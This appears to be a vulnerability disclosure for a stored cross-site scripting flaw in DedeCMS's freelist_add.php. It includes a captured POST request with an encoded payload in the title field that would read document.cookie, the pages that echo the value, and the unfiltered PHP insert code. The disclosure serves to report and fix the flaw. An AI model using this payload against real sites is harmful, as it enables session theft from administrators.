




# [DedeCMS<=V5.7.110-Stored XSS-freelist_add.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain a cross-site scripting (XSS) vulnerabilitiy at /dede/freelist_add.php via the `title` parameter.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.102/dedecms/dede/freelist_add.php

**[Vulnerability Location]:** /dede/freelist_add.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.102/dedecms/dede/freelist_add.php

   payload：``

   

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/freelist_add.php HTTP/1.1
   Host: 192.168.0.102
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 1015
   Origin: http://192.168.0.102
   Connection: close
   Referer: http://192.168.0.102/dedecms/dede/freelist_add.php
   Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=k80ie8nj6f5b2vu6g6ao7s88t4; _csrf_name_9ede20a6=59cf8672331723d4681756d382aac803; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=6d9ce6ae64572654; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1692068097; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=6342e62784a9d5e8; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Ffreelist_main.php
   Upgrade-Insecure-Requests: 1
   
   dopost=save&title=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&listdir=%7Bcmspath%7D%2Ffreelist%2F&defaultpage=index.html&namerule=%7Blistdir%7D%2Findex_%7Blistid%7D_%7Bpage%7D.html&templet=%7Bstyle%7D%2Flist_free.htm&maxpage=100&keywords=aaaa&description=aaaaa&liststyle=4&typeid=0&channel=1&att=s&subday=0&pagesize=30&col=1&titlelen=60&keywordarc=&orderby=pubdate&order=desc&innertext=%0D%0A%3Cli%3E%0D%0A+++%5Bfield%3Aimglink%2F%5D%0D%0A++++%5Bfield%3Atextlink%2F%5D%0D%0A++++%3Cspan+class%3D%22info%22%3E%0D%0A++++++++%3Csmall%3E%E6%97%A5%E6%9C%9F%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Apubdate+function%3D%22getdatemk%28%40me%29%22%2F%5D%0D%0A++++++++%3Csmall%3E%E7%82%B9%E5%87%BB%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Aclick%2F%5D%0D%0A++++++++%3Csmall%3E%E5%A5%BD%E8%AF%84%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Ascores%2F%5D%0D%0A++++%3C%2Fspan%3E%0D%0A++++%3Cp+class%3D%22intro%22%3E+%5Bfield%3Adescription%2F%5D...%3C%2Fp%3E%0D%0A++++%3C%2Fli%3E%0D%0A&Submit2=%E4%BF%9D%E5%AD%98%E4%B8%80%E4%B8%AA%E5%88%97%E8%A1%A8
   ```

   

3. Visit http://192.168.0.102/dedecms/dede/freelist_main.php

   

   

   You also can visit http://192.168.0.102/dedecms/plus/freelist.php?lid=12

   

**[code analysis]:**

In /dede/freelist_add.php:

```php
<?php 
//...
else if($dopost=='save')
{
    if(!isset($types)) $types = '';
    if(!isset($nodefault)) $nodefault = '0';
    $atts = " pagesize='$pagesize' col='$col' titlelen='$titlelen' orderby='$orderby' orderway='$order' ";
    $ntype = '';
    $edtime = time();
    if(empty($channel))
    {
        showmsg('频道类型不能为空','-1');
        exit();
    }
    if(is_array($types))
    {
        foreach($types as $v) $ntype .= $v.' ';
    }
    
    if($ntype!='') $atts .= " type='".trim($ntype)."' ";
    if(!empty($typeid)) $atts .= " typeid='$typeid' ";
    if(!empty($channel)) $atts .= " channel='$channel' ";
    if(!empty($subday)) $atts .= " subday='$subday' ";
    if(!empty($keywordarc)) $atts .= " keyword='$keywordarc' ";
    if(!empty($att)) $atts .= " att='$att' ";
    
    $innertext = trim($innertext);
    if(!empty($innertext)) $innertext = stripslashes($innertext);
    
    $listTag = "{dede:list $atts}$innertext{/dede:list}";
    $listTag = addslashes($listTag);
    $inquery = "
     INSERT INTO `#@__freelist`(`title` , `namerule`  , `listdir` , `defaultpage` , `nodefault` , `templet` , `edtime`, `maxpage` , `click` , `listtag` , `keywords` , `description`)
     VALUES ('$title','$namerule','$listdir','$defaultpage','$nodefault','$templet','$edtime', '$maxpage','0','$listTag','$keywords','$description');
   ";
    $dsql->ExecuteNoneQuery($inquery);
    ShowMsg("成功增加一个自由列表!", "freelist_main.php");
    exit();
}
//....
```

No filtering is done on title.

In /dede/freelist_main.php and /plus/freelist.php?lid=12, `title` is echoed on the page.


